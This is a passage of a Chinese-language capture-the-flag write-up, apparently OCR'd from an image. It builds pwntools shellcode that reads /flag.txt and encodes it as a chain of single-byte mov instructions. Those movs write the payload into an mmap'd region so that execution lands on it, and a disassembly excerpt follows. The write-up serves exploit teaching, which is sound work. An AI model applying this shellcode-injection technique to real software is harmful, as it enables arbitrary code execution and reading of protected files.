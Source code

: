 因此, 我们只需要通过这段汇编把一段 shellcode 写入内存, 并且要使得在执行完这段写内存的代码之后, `rip` 刚好指向我们刚刚写入内存的起始地址. 至于不知道 mmap 之后的起始地址, 既然给了elf 了, debug 一下就知道了. (如图, mmap 后的起始地址储存在 `rdx` 寄存器中)

![](assets/simple-prob-1.png)

构造 payload 的代码如下:

```python
context.arch = 'amd64'
real_shellcode = asm(shellcraft.amd64.cat('/flag.txt'))
shellcode = ""
instr_len = len(asm("mov byte ptr [rdx + 0x20], 0x10"))
for i, x in enumerate(real_shellcode):
    offset = hex(len(real_shellcode) * instr_len + i)
    shellcode += f"mov byte ptr [rdx + {offset}], {hex(x)}\n"
shellcode = asm(shellcode)
assert len(shellcode) == len(real_shellcode) * instr_len
```

构造出来就是一堆 `mov`, 逐字节写入真正的 shellcode

```
   0:   c6 82 1f 01 00 00 6a    mov    BYTE PTR [rdx+0x11f], 0x6a
   7:   c6 82 20 01 00 00 74    mov    BYTE PTR [rdx+0x120], 0x74
   e:   c6 82 21 01 00 00 48    mov    BYTE PTR [rdx+0x121], 0x48
  15:   c6 82 22 01 00 00 b8    mov    BYTE PTR [rdx+0x122], 0xb8
  1c:   c6 82 23 01 00 00 2f    mov    BYTE PTR [rdx+0x123], 0x2f
  23:   c6 82 24 01 00 00 66    mov    BYTE PTR [rdx+0x124], 0x66
    ...
 118:   c6 82 47 01 00 00 05    mov    BYTE PTR [rdx+0x147], 0x5
```
